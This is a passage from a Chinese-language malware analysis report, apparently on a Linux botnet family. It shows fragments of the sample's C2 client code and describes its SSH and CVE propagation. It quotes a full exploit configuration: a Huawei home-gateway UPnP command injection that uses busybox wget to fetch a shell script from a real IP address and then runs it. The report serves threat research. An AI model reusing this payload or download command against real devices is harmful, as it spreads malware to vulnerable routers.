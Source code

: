    ```python
                   str = '<<!!>>'
                   back_msg = str.join(target)
                   back_msg = back_msg + "<<<<<!!>>>>"
                   enc_msg = encode(back_msg)
                   print(f"back: {back_msg}, {enc_msg}")
                   # ssl_socket.send(back_msg.encode())
   
   
                   send_udp_info(recv_content, server_ip, server_port)
                   count = False
               print(recv_content.decode())
               analy_packet(recv_content)
       except Exception as e:
            print(e)
            connect_ssl(server_ip, server_port)
   
   connect_ssl(ip,port)
   ```

   

#### 4. 传播行为

本样本未涉及传播方式，但同家族中新版本新增了传播模块，因此这里说明家族涉及的传播方式：

- SSH传播(根据受害机历史记录进行传播)
- CVE传播



##### 4.1 CVE传播

触发条件：

- C2下发攻击指令`runcve`
- 攻击者扫描cve漏洞机器，直接通过cve漏洞传播样本



###### 4.1.1 C2下发攻击指令runcve

这种传播方式需要额外向攻击者的放马站下载`cve.txt`，`password`和`kk`文件，其中`cve.txt`文件是利用AES CBC模式加密的，`password`是iv向量。C2会向客户端发送私钥`1234567812345678`，结合iv解密`cve.txt`文件。`kk`文件即为下载器文件`download.sh`，用于从放马站中下载样本

`cve.txt`文件：漏洞利用配置文件

以其中一段举例说明：`<NewStatusURL>`和`</NewStatusURL>`之间注入`/bin/busybox cd /tmp || cd /var/run || cd /mnt || cd /root || cd /;wget http://209.141.46.211/m/kk.sh; chmod 777 download.sh; ./download.sh;`的执行命令，样本将配置信息结合成https包，发送给指定机器，通过漏洞传播样本。

```
[@START]
*AGREEON=https
*PROT=8080
*WWW=/ctrlt/DeviceUpgrade_1
*MODE=POST
*HEADERS=Authorization$====$Digest username=dslf-config, realm=HuaweiHomeGateway, nonce=88645cefb1f9ede0e336e3569d75ee30, uri=/ctrlt/DeviceUpgrade_1, response=3612f843a42db38f48f59d2a3597e19c, algorithm=MD5, qop=auth, nc=00000001, cnonce=248d1a2560100669
$+++$User-Agent$====$Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
*DATA=<?xml version="1.0" ?>
 <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
   <NewStatusURL>;/bin/busybox cd /tmp || cd /var/run || cd /mnt || cd /root || cd /;wget http://209.141.46.211/m/kk.sh; chmod 777 download.sh; ./download.sh;</NewStatusURL>
   <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
  </u:Upgrade>
 </s:Body>
```